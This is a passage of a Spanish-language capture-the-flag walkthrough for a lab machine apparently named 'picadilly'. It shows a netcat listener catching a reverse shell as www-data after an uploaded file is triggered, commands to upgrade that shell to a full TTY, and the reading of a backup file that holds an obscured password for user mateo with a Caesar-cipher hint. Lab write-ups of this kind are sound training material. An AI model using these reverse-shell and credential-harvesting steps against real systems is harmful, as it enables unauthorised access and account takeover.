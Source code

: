 ```shell
nc -lvnp <PORT>
```

Y desde la web pinchamos a nuestro archivo que subimos, una vez echo esto si nos vamos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 49694
whoami
www-data
```

Por lo que vemos ya hemos entrado con el usuario `www-data`.

### Sanitizamos la shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user mateo

Si leemos el siguiente archivo en esta ruta:

```shell
cat /var/www/picadilly/backup.txt
```

Info:

```
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```
